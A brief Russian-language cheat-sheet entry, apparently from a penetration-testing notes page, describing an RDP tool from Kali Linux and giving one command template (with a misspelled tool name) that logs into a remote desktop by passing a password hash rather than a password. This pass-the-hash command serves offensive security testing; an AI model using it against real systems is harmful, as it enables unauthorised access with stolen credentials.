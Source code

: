 Базовая утилита Kali Linux для эксплуатации RDP протокола.

```
xfreedp /d:{domain} /u:{user} /v:{IP} /pth:{password's hash}
```
